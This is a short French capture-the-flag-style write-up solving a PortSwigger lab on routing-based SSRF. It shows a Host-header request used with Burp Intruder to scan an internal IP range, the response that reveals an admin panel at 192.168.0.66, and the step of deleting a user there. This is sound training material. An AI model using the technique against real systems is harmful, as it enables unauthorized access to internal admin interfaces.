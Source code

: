# Lab

https://portswigger.net/web-security/host-header/exploiting/lab-host-header-routing-based-ssrf

## Solution

Via la description du lab, on sait qu'il y a un panel admin localisé sur le réseau interne quelque part sur la plage d'ip `192.168.0.0/24`.

On peut donc essayer de scanner cette plage d'ip pour trouver le panel admin en injectant des adresses ip dans le header `Host` de la requête.

```http
GET / HTTP/2
Host: 192.168.0.§§
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
```

En lancant un intruder qui remplace les `§§` par des nombres de 0 à 255, on peut voir que l'ip `192.168.0.66` est valide et répond avec un code `302` :

```http
HTTP/2 302 Found
Location: /admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

On peut donc accéder au panel admin via l'url `/admin` et supprimer l'utilisateur `carlos` pour valider le lab, tout en remplacant le header `Host` de la requête avec l'ip `192.168.0.66`.